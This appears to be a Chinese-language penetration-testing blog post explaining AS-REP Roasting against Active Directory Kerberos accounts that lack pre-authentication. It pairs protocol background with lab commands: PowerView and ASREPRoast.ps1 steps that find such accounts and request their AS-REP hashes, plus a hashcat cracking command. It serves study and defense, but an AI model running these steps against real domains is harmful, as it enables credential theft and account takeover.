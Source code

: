 ```yaml
---
title: AS-REP Roasting
date: 2019-12-31 23:59:54 +0800
categories: [域安全, TA0006凭据访问]
tags: [AS-REP Roasting, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## 0x00 简介

如果账户设置了`Do not require Kerberos preauthentication`，则在AS-REQ阶段就不需要用Client Master Key加密timestamp，用于KDC验证自身。因此，攻击者可以伪装成任意用户发出AS-REQ，而AES-REP中的Session Key是由Client Master Key加密的；一旦攻击者拿到AES-REP后便可暴力破解，如果能顺利解密说明破解成功。

![image-20201229101454378](/assets/img/image-20201229101454378.png)



**参考：**

[Roasting AS-REPs](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

[域渗透——AS-REPRoasting](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-AS-REPRoasting/)

[A Generalized Framework for Kerberos Pre-Authentication](https://tools.ietf.org/html/rfc6113#section-2.2)



## 0x01 AS-REP Roasting原理

Kerberos preauthentication的作用：

> https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication
>
> Kerberos Pre-Authentication is a concept within [Kerberos](https://ldapwiki.com/wiki/Kerberos).
>
> Kerberos Pre-Authentication is defined in [RFC 6113](https://ldapwiki.com/wiki/RFC 6113) and an [IANA Registry](https://ldapwiki.com/wiki/IANA Registry) for [Pre-authentication and Typed Data](https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#pre-authentication)
>
> Kerberos Pre-Authentication is a security feature which offers protection against [password-guessing](https://ldapwiki.com/wiki/Brute-Force) [attacks](https://ldapwiki.com/wiki/Attack). The AS request identifies the client to the [KDC](https://ldapwiki.com/wiki/KDC) in [Plaintext](https://ldapwiki.com/wiki/Plaintext). If Kerberos Pre-Authentication is enabled, a [Timestamp](https://ldapwiki.com/wiki/Timestamp) will be [encrypted](https://ldapwiki.com/wiki/Encrypted) using the user's [password](https://ldapwiki.com/wiki/Password) [hash](https://ldapwiki.com/wiki/Hash) as an [encryption](https://ldapwiki.com/wiki/Encryption) [key](https://ldapwiki.com/wiki/Key). If the [KDC](https://ldapwiki.com/wiki/KDC) reads a valid time when using the user's password hash, which is available in the [Microsoft Active Directory](https://ldapwiki.com/wiki/Microsoft Active Directory), to decrypt the [Timestamp](https://ldapwiki.com/wiki/Timestamp), the [KDC](https://ldapwiki.com/wiki/KDC) knows that request isn't a replay of a previous request.
>
> Without Kerberos Pre-Authentication a [malicious](https://ldapwiki.com/wiki/Malicious) [attacker](https://ldapwiki.com/wiki/Attacker) can directly send a dummy request for [authentication](https://ldapwiki.com/wiki/Authentication). The [KDC](https://ldapwiki.com/wiki/KDC) will return an [encrypted](https://ldapwiki.com/wiki/Encrypted) [TGT](https://ldapwiki.com/wiki/TGT) and the [attacker](https://ldapwiki.com/wiki/Attacker) can brute force it offline. Upon checking the [KDC](https://ldapwiki.com/wiki/KDC) logs, nothing will be seen except a single request for a [TGT](https://ldapwiki.com/wiki/TGT). When [Kerberos](https://ldapwiki.com/wiki/Kerberos) [timestamp](https://ldapwiki.com/wiki/Timestamp) Kerberos Pre-Authentication is enforced, the [attacker](https://ldapwiki.com/wiki/Attacker) cannot directly ask the [KDCs](https://ldapwiki.com/wiki/KDC) for the encrypted material to [Brute-Force](https://ldapwiki.com/wiki/Brute-Force) offline.



注意抓包前先用**KERBEROS::Purge** 清理所有Kerberos ticket，首先看一个带Pre-Authentication的流量，在第二个AS-REQ里，Client会发送密码Hash加密过的timestamp, KDC如果解密成功，即可验证Client。

 [ASExchange_WithPreau.pcapng](https://github.com/RingLcy/Pentestlab/blob/master/traffic/ASExchange_WithPreau.pcapng) 

![image-20201229095230284](/assets/img/image-20201229095230284.png)



再看一个不带Pre-Authentication的流量，可以发现AS-REQ中没有entrypted timestamp字段，即不需要让KDC验证身份。

 [ASExchange_WithoutPreau.pcapng](https://github.com/RingLcy/Pentestlab/blob/master/traffic/ASExchange_WithoutPreau.pcapng) 

![image-20201229095616210](/assets/img/image-20201229095616210.png)



对于关闭了Pre-Authentication的账户，攻击者可以在AS-REQ里仿冒成这些账户获取AS-REP，但还存在两个要解决的问题。

1. AS-REQ、AS-REP中都用指定的etype来加密数据，etype默认是AES256-CTS-HMAC-SHA1-96算法，该算法不如ARCFOUR-HMAC-MD5/RC4快。为了后面暴力破解更快，需要在AS-REQ时就直接指定etype。
2. 传输数据采用了ASN.1格式，.Net没有内置ASN.1的格式解析，最终作者使用的是[open source C# version](https://github.com/bcgit/bc-csharp) 



最终AS-REP Roasting流量如下：

 [AS-REPRoasting.pcapng](https://github.com/RingLcy/Pentestlab/blob/master/traffic/AS-REPRoasting.pcapng) 

![image-20201229100542623](/assets/img/image-20201229100542623.png)





## 0x02 AS-REP Roasting利用

### [1. ASREPRoast.ps1](https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1)



#### 设置账户不需要Pre-Auth(需要Domain Admins权限)

```
// Powerview, 事后也是执行同样的命令Enable Pre-Auth
PS C:\Users\Administrator\Desktop> Set-DomainObject -Identity win10_2 -XOR @{userAccountControl=4194304} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=win10_2)(name=win10_2)(displayname=win10_2))))
VERBOSE: [Set-DomainObject] XORing 'userAccountControl' with '4194304' for object 'win10_2'
```





#### 查找不需要`Pre-Auth`的账户

```
// LDAP Filter
(userAccountControl:1.2.840.113556.1.4.803:=4194304)

// Powerview, Get-DomainUser -PreauthNotRequired
PS C:\Users\win10\Desktop> Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainUser] Searching for user accounts that do not require kerberos preauthenticate
VERBOSE: [Get-DomainUser] filter string:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))

distinguishedname
-----------------
CN=win10_2,CN=Users,DC=ring2,DC=com
```



#### 发送自己构造的AS-REQ

```
// ASREPRoast.ps1
PS C:\Users\win10\Desktop> Get-ASREPHash -UserName win10_2 -Domain ring2.com -Verbose
VERBOSE: [Get-ASREPHash] DC server IP '192.168.240.142' resolved from passed -Domain parameter
VERBOSE: [Get-ASREPHash] Bytes sent to '192.168.240.142': 157
VERBOSE: [Get-ASREPHash] Bytes received from '192.168.240.142': 1356
$krb5asrep$win10_2@ring2.com:5f799d1ea6514c063501cf007e57413b$f9fd3ed74412ebd698ba4a6a158109da42eed6ae7bf2318160f7de6aaa9e9f60cbf45a98c781671a68483e0ba3fb44395b7248fbb53cb89871b357f81544b8b5a4097057507c5a8a48ee3ec9716fc6b6292bc683dc953b6b19e17d6d8f386998c0c78f543d665363ed12b36ee38b0107d21f49f49460dce935bed6005284cb2dc187008fb0f0233163ad4ae61b2a7caf977cdf4c9ebaee05591bfe90c5f4f56b4ef12d17200396469318810cf5c0c1976d316ada73e54a3eff8d0da01ac9cc4dac64d5c082f9cc521a090163a2c271072d2b78b998f9cc2f47f84bfd4d2d06f20f4a6bd61eb2
```



`Invoke-ASREPRoast`将发现和发送组合到了一起，可以直接调用。

```
PS C:\Users\win10\Desktop> Invoke-ASREPRoast -Verbose |Format-List
VERBOSE: [Invoke-ASREPRoast] DC server IP '192.168.240.142' resolved from passed -Domain parameter
VERBOSE: [Get-DomainSearcher] search string: LDAP://ringdc-pc.ring2.com/DC=ring2,DC=com
VERBOSE: [Invoke-ASREPRoast] LDAP filter:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
VERBOSE: [Get-ASREPHash] DC server IP '192.168.240.142' resolved from passed -Server parameter
VERBOSE: [Get-ASREPHash] Bytes sent to '192.168.240.142': 157
VERBOSE: [Get-ASREPHash] Bytes received from '192.168.240.142': 1356


SamaccountName    : win10_2
DistinguishedName : CN=win10_2,CN=Users,DC=ring2,DC=com
Hash              : $krb5asrep$win10_2@ring2.com:f11aab49f586f1fcab53dcc60dbe8e0e$6b1622e1a82818fa83fc69aa96fee761d7efe
                    07474f76748336b1cd7ddb6fb3781763037b3bd61f2fb24f8410fceb256f093fdd4e46fa95b1a09a2bcf139329ecd5ce1e8
                    aeb8b119e7a80f1a6bbb875593a26a01dcdb83939b8a241d7380918a63bbf58fe0c4ab94d5c8c7dc6a0c173e65b3eadc672
                    c7094728c3ff6cafae1f5e10286d0a9afd9ae42fd38c87a4c1e0f21ca91d1f786ea98af39b07045c690785e127594d52615
                    93b5780563ae614bed15d9cc70eb127ec682ab072414a59e112fd415baad8e0bf0495673543924ff2ae99b903f37f2f49b5
                    0f02cff77592222a12bae5fdc38
```



#### 暴力破解

需要在$krb5asrep加上etype类型$23

```
hashcat -m 18200 '$krb5asrep$23$win10_2@ring2.com:9b93f475d1348bc80d8826e558f94e39$d335c24cb5343d505cd0fd59cadf290c3a2af20dbdad28f8671dd6d82ba760e2de0cc29b0b6bc222bd1833b5d6d8bb6c2b1d3b5203ecadc6d305a5597949d4d60ac9a286c214af6be85596a7054b3a50664d489ef3fe72c397bb67fcc90225acb10637357c1408752b5e10d492a752bf0dbd18ed09f0b19962186a49ab98d30935983cbc20133597bdca32c8a1a71e60b098cc47a511f5f1d6c309205b0f76cfce6a3167b1481b2ec868bf48bb99ec23b42b942867cd0952833eb71f733d305ab9f50cb88d76eafd95619a75977c7bcb52bb31e0331239c2faee1dfb0da84d902d882d9a642b' password.txt --force
```

![image-20201229102020908](/assets/img/image-20201229102020908.png)

